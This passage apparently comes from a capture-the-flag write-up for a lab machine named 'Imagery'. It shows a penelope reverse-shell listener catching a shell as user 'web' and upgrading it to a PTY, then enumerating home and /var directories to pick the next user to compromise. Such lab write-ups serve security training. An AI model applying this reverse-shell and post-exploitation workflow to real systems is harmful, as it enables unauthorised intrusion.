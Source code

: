 Before send, prepare our setup listener.

```bash
└─$ penelope -p 3333         
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.16.147.141 • 172.17.0.1 • 10.10.16.13
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

Then hit send again and wait for few second.

```bash
└─$ penelope -p 3333         
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.16.147.141 • 172.17.0.1 • 10.10.16.13
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from Imagery~10.129.98.213-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /home/web/web/env/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/Imagery~10.129.98.213-Linux-x86_64/2025_09_28-05_49_14-543.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
web@Imagery:~/web$
```

There we go, got ourself in `web` session.

### Discovery
Taking some enumeration around to see if we can find something useful.

```bash
web@Imagery:~/web$ id
uid=1001(web) gid=1001(web) groups=1001(web)
```

```bash
web@Imagery:/home$ ls -la
total 16
drwxr-xr-x  4 root root 4096 Sep 22 18:56 .
drwxr-xr-x 20 root root 4096 Sep 22 19:10 ..
drwxr-x---  2 mark mark 4096 Sep 22 18:56 mark
drwxr-x---  7 web  web  4096 Sep 22 18:56 web
```

So there is another user `mark` as this one will be our next target to pwn.

```bash
web@Imagery:/var$ ls -la
total 60
drwxr-xr-x 14 root root   4096 Sep 22 18:56 .
drwxr-xr-x 20 root root   4096 Sep 22 19:10 ..
drwxr-xr-x  2 root root   4096 Sep 22 18:56 backup
drwxr-xr-x  3 root root   4096 Sep 23 16:31 backups
drwxr-xr-x 17 root root   4096 Sep 22 18:56 cache
drwxrwsrwt  2 root root   4096 Sep 28 06:25 crash
drwxr-xr-x 45 root root   4096 Sep 22 19:11 lib
drwxrwsr-x  2 root staff  4096 Sep 22 18:56 local
lrwxrwxrwx  1 root root      9 Oct  7  2024 lock -> /run/lock
drwxrwxr-x  8 root syslog 4096 Sep 28 04:24 log
drwxrwsr-x  2 root mail   4096 Sep 22 18:56 mail
drwxr-xr-x  2 root root   4096 Sep 22 18:56 opt
lrwxrwxrwx  1 root root      4 Oct  7  2024 run -> /run
drwxr-xr-x  8 root root   4096 Sep 22 18:56 snap
drwxr-xr-x  4 root root   4096 Sep 22 18:56 spool
drwxrwxrwt  9 root root   4096 Sep 28 04:47 tmp
```